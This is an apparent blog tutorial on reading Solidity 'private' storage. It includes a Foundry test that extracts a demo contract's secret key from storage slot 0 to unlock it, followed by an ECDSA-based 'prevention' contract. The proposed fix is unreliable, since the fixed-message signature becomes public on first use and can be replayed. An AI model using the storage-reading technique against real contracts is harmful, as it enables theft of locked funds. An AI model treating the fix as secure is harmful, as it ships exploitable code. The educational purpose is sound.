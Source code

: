 ```yaml
---
title: Not so private Solidity storage
date: '2023-05-09T00:00:00Z'
modifiedTime: '2023-05-09T00:00:00Z'
summary: Introduce private storage vulnerability. A mockup exploitation and potential solutions.
image: 'blogs/blockchain/private_storage/cover.webp'
type: BlogPost
---
```


# Problem introduction

In Solidity, you can define private variables in a contract to keep them hidden from other contracts.
Private variables are only accessible within the contract in which they are defined and cannot be accessed
or modified by other contracts or external users. This behavior is expected from programming languages which support OOP paradigm.

However, it's important to note that private variables are still visible to all participants on the blockchain, including miners and nodes.
This means that the values of private variables are not completely hidden,
and should not be used to store sensitive information such as passwords or private keys.

# An example

We will showcase an exploitation example in Foundry-VM.

## The Locker contract

Let's defined a `Locker` contract with 16bytes `secretKey` as below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Locker {
  bool public locked = true; // 1 bytes
  bytes16 private secretKey; // 16 bytes

  constructor(bytes16 _secretKey) {
    secretKey = _secretKey;
  }

  function unlock(bytes16 _key) public {
    require(_key == bytes16(secretKey));
    locked = false;
  }
}

```

## Unlock

If we analyze [storage allocation](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data) of the contract above, the result is:

<Image src="/blogs/blockchain/private_storage/storage.webp" width="1200" height="500" caption="Storage layout of Locker contract" />

Having that information in hand, an example unlocker would perform the following step:

1. Inspect the target contract
2. Load from contract storage slot 0
3. Extract `secretKey = bytes[15..30]` from the storage
4. Use the secret key to unlock.

An example mockup is implemented as follows:

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "~/private_lock/Locker.sol"; // the defined Locker contract

contract LockerTest is Test {
  Locker public targetLocker;

  function setUp() public {
    bytes16 secretPhrase = bytes16(keccak256(abi.encodePacked(tx.origin, "SECRET_HASH")));
    targetLocker = new Locker(secretPhrase);
  }

  function breakSecret(Locker _targetLocker) internal view returns (bytes16) {
    // Step 1: Identify the contract
    address lockerAddress = address(_targetLocker);
    // Step 2: Retrieve storage data from at block 0 from the smart contract
    bytes32 secretDataBlock = vm.load(lockerAddress, bytes32(uint256(0)));

    // LAYOUT: 15 "0" | 16 (secretKey) | 1 ("locked" status) [SLOT 0]
    // Step 3: Retrieve byte 16th to 31th, which is the secret key.
    bytes16 secretKey = bytes16(secretDataBlock << (15 * 8));

    return secretKey;
  }

  function testUnlockLocker() public {
    // Step 4: Unlock
    bytes16 secretKey = breakSecret(targetLocker);
    targetLocker.unlock(secretKey);

    bool isUnlocked = !targetLocker.locked();
    assertTrue(isUnlocked, "Hacker should break the lock");
  }
}
```

# Prevention

A simple solution to make the contract more secured is using a pre-defined signature as the secret key.
For this example, I use elliptic curve DSA:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract SecureLocker {
  bool public locked = true; // 1 bytes
  address private owner;
  using ECDSA for bytes32;

  constructor(address _owner) {
    owner = _owner;
  }

  function unlock(bytes memory _signature) public {
    // EIP 712 Signature Validation: https://eips.ethereum.org/EIPS/eip-712
    bytes memory eth_msg = abi.encodePacked("\x19Ethereum Signed Message:\n20", "<SECRET_OFFCHAIN_MSG>");
    bytes32 hash = keccak256(eth_msg);
    if (owner == hash.recover(_signature)) {
      locked = false;
    }
  }
}
```

With this setup, the contract owner will store their signature (secret key) offchain and use it on `unlock` calls.

# References

1. [Ethernaut Level 12](https://ethernaut.openzeppelin.com/404)
2. [Ethereum storage layout](https://ethereum.org/en/developers/docs/smart-contracts/anatomy/#data)
3. [Ethereum OpCodes](https://ethereum.org/en/developers/docs/evm/opcodes/)
